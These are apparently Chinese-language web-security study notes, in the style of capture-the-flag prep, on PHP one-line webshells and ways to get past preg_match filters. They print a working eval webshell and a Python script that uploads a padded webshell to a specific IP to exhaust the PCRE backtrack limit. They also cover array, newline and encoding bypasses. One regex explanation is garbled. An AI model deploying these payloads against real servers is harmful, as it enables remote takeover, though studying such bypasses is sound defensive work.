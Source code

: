 一句话木马
⼀句话⽊⻢是⼀种简短的恶意代码，通常⽤于在⽬标服务器上创建⼀个后⻔，以便攻击者远程控制该 服务器或执⾏其他恶意操作。它主要出现在Web安全领域，特别是涉及PHP、ASP、JSP等动态语⾔ 的Web应⽤程序中。
```
php 的⼀句话⽊⻢：<?php @eval($_POST['a']); ?>
```

preg_match绕过总结
1、数组绕过
preg_match只能处理字符串，当传入的subject是数组时会返回false
2、PCRE回溯次数限制
pcre.backtrack_limit给pcre设定了一个回溯次数上限，默认为1000000，如果回溯次数超过这个数字，preg_match会返回false
[PHP利用PCRE回溯次数限制绕过某些安全限制 | 离别歌](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)
```
import requests
from io import BytesIO

files = {
  'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
}

res = requests.post('http://51.158.75.42:8088/index.php', files=files, allow_redirects=False)
print(res.headers)
```

3、换行符
特殊字符（点，句号)在正则表达式中用来表示除了‘新行’之外的所有字符。所以模式 ∧∧ 5$ 与任何两个字符的、以数字5结尾和以其他非‘新行’字符开头的字符串匹配。模式 ∧∧ 可以匹配任何字符串，换行符（\n, \r）除外
![image](https://github.com/user-attachments/assets/426de3d6-3902-41c6-b213-3148275619b9)

4、Base64、URL编码绕过
Base64 编码是⼀种基于64个可打印字符来表⽰⼆进制数据的编码⽅式。它常⽤于在需要以⽂本形 式传输或存储⼆进制数据的场景中，⽐如电⼦邮件、URL参数、⽹络传输等。
Base64使⽤以下64个字符作为编码表：
字⺟： A-Z 、 a-z  （共52个字符）
数字： 0-9 （共10个字符） 
两个符号： + 和 / （共2个字符） 
填充符： = （⽤于填充不⾜3字节的数据）
3个字符（24位）才够转换为4个6位的分组
![image](https://github.com/user-attachments/assets/206034da-70e3-4d11-bdc1-50f49e9fcfe0)


![image](https://github.com/user-attachments/assets/91c859e1-857d-4fd2-9dca-38c961a3b8d1)

![image](https://github.com/user-attachments/assets/f65fe625-2a92-400e-b6d1-4d152ce611da)

根据base64解码规则和php中base64解码宽松性，= 在解码过程开始前会被移除，所以不会影响解码结果，但是+号作为码表的一部分移除会导致解码不正确，注意分别。
可以用get：/?wrappers=;base64,编码

